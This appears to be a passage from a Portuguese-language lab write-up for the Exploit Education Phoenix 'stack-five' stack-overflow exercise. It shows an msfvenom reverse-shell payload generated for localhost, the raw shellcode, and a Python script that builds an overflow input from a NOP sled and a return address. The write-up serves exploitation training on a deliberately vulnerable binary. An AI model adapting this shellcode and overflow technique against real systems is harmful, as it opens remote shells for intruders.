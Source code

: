 > msfvenom -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 --platform linux -a x64 -f python --var-name buf

```
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of python file: 373 bytes
buf =  b""
buf += b"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48"
buf += b"\x97\x48\xb9\x02\x00\x11\x5c\x7f\x00\x00\x01\x51\x48"
buf += b"\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e"
buf += b"\x48\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x6a\x3b\x58"
buf += b"\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48"
buf += b"\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05"


```

Agora, vamos fazer um exploit mais bem feito! `vim /tmp/exploit.py`
```
buf =  b""

# shellcode
buf += b"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48"
buf += b"\x97\x48\xb9\x02\x00\x11\x5c\x7f\x00\x00\x01\x51\x48"
buf += b"\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e"
buf += b"\x48\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x6a\x3b\x58"
buf += b"\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48"
buf += b"\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05"

# NOP Sled para completar o resto do tamanho
buf = '\x90'*(136-len(buf)) + buf

# ret
buf += b'\xb6\xe5\xff\xff\xff\x7f'


open("/tmp/exploit","wb").write(buf)
```

> O script /tmp/exploit.py vai gerar o que colocariamos no input, mas ao enves de printarmos para o terminal, vamos salvar em um arquivo binario (por isso o "wb" no open)! 
> 
> Depois é só ler esse arquivo e redireciona-lo `cat /tmp/exploit | ./stack-five` (perceba que não termina com `.py` ! caso você queira, pode dar um nome menos confuso ;) )

Porem, se tentamos executar esse exploit, recebemos SIGSEV: violação de segmento

## Corrigindo o problema
Nessa eu tambem empaquei, e a solução veio daqui: [blog lamarranet](https://blog.lamarranet.com/index.php/exploit-education-phoenix-stack-five-solution/)

Então valeu pela ajuda :D
